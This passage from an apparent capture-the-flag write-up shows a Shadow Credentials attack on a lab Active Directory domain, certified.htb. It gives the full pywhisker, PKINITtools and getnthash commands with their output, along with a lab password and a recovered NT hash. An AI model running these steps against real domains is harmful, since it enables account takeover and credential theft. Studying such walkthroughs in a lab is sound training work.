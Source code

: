 
This group has GenericWrite over the management_svc user, we can perform a Shadow Credentials attack using pywhisker: [Link](https://github.com/ShutdownRepo/pywhisker?tab=readme-ov-file).
```bash
python3 pywhisker.py -d "certified.htb" -u "judith.mader" -p 'judith09' --target "management_svc" --action "add" --dc-ip 10.10.11.41
[*] Searching for the target account
[*] Target user found: CN=management service,CN=Users,DC=certified,DC=htb
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID: 1985160b-15b2-3ee1-59a4-957863ddcc89
[*] Updating the msDS-KeyCredentialLink attribute of management_svc
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[+] Saved PFX (#PKCS12) certificate & key at path: 9SNTealW.pfx
[*] Must be used with password: 0GgEaJDoerPdNjEjOw1J
[*] A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools
```

The next step is to get the TGT:
```bash
python3 gettgtpkinit.py -cert-pfx 9SNTealW.pfx -pfx-pass 0GgEaJDoerPdNjEjOw1J certified.htb/management_svc user.ccache -dc-ip 10.10.11.41
2024-11-24 19:20:48,481 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2024-11-24 19:20:48,496 minikerberos INFO     Requesting TGT
INFO:minikerberos:Requesting TGT
2024-11-24 19:21:12,316 minikerberos INFO     AS-REP encryption key (you might need this later):
INFO:minikerberos:AS-REP encryption key (you might need this later):
2024-11-24 19:21:12,316 minikerberos INFO     9a79edb8e1ddbf2f6c46968fd2c0868b547da79bc0c8a51502936c8ea81a3ecb
INFO:minikerberos:9a79edb8e1ddbf2f6c46968fd2c0868b547da79bc0c8a51502936c8ea81a3ecb
2024-11-24 19:21:12,320 minikerberos INFO     Saved TGT to file
INFO:minikerberos:Saved TGT to file
```

Using the TGT we can request the NTLM hash:
```bash
export KRB5CCNAME=user.ccache 

python3 getnthash.py -key 9a79edb8e1ddbf2f6c46968fd2c0868b547da79bc0c8a51502936c8ea81a3ecb certified.htb/management_svc -dc-ip 10.10.11.41
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Using TGT from cache
/tmp/pywhisker/pywhisker/getnthash.py:144: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow()
/tmp/pywhisker/pywhisker/getnthash.py:192: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
[*] Requesting ticket to self with PAC
Recovered NT Hash
a091c1832bcdd4677c28b5a6a1295584
```
